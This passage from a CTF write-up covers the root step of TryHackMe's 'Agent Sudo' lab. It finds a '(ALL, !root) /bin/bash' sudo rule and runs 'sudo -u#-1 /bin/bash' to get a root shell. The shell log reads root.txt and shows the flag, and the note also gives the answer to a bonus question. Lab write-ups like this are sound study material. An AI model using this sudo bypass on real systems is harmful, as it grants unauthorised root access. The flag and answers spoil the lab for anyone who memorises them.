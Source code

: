 So we search for  `(All, !root) /bin/bash` and we got the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) :

<img src="../../Flameshots/b8570c8b4541bfc528579b16a27cb7a3.png" alt="b8570c8b4541bfc528579b16a27cb7a3.png" width="396" height="286" class="jop-noMdConv">

### Exploit

Run the exploit `sudo -u#-1 /bin/bash`  :

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cd ..
root@agent-sudo:/home# ls
james
root@agent-sudo:/home# cd ..
root@agent-sudo:/# cd root
root@agent-sudo:/root# 
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
    
```

### (Bonus) Who is Agent R? Deskel .

